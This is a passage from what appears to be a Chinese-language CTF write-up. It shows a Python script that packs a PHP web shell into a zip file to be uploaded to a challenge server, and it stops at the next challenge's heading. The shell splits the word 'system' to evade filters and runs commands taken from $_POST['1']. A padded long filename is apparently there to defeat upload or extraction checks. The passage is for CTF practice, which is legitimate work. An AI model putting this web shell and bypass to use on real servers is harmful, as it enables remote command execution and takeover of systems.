

访问 url/upload/suimages/1.php



成功写入,但是eval函数可能被ban了（？）用不了

不管了直接用system吧

```php
import zipfile
import io

mf = io.BytesIO()
with zipfile.ZipFile(mf, mode="w", compression=zipfile.ZIP_STORED) as zf:
    zf.writestr('4.php', b'<?php $a="sys"."tem"; $a($_POST[\'1\']); ?>')
    zf.writestr('A' * 5000, b'AAAAA')

with open("shell.zip", "wb") as f:
    f.write(mf.getvalue())
```



### SU_easyk8s_on_aliyun

